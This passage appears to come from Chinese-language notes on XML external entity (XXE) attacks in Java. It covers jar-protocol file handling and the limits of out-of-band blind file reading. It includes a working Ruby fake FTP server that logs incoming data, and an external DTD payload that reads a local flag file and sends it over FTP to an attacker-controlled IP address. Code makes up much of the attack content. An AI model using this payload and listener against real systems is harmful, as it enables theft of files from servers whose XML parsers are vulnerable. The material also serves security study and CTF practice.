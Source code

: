 ![image-20220308171330648](Java中的XXE.assets/image-20220308171330648.png)

**jar 协议处理文件的过程：**

(1) 下载 jar/zip 文件到临时文件中
(2) 提取出我们指定的文件
(3) 删除临时文件



## OOB盲读文件的限制

盲读文件的时候，使用nc接受数据只能是对应的文件只有一行。如果文件中包含了`\r`，`\n`等字符的时候，会报错：

```java
java.net.MalformedURLException: Illegal character in URL
```

因此用http不行，但是可以用FTP（某个高版本JDK之前）。



服务器上安装ruby，写个ftp.rb：

```ruby
require 'socket'
server = TCPServer.new 39802
loop do
  Thread.start(server.accept) do |client|
    puts "New client connected"
    data = ""
    client.puts("220 xxe-ftp-server")
    loop {
        req = client.gets()
        puts "< "+req
        if req.include? "USER"
            client.puts("331 password please - version check")
        else
           #puts "> 230 more data please!"
            client.puts("230 more data please!")
        end
    }
  end
end

```



写个evilftp.xml：

```xml
root@VM-0-6-ubuntu:~/java/xxe# cat evilftp.xml
<!ENTITY % file SYSTEM 'file:///d://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'ftp://121.5.169.223:39802/%file;'>">
%payload;
%send;

```
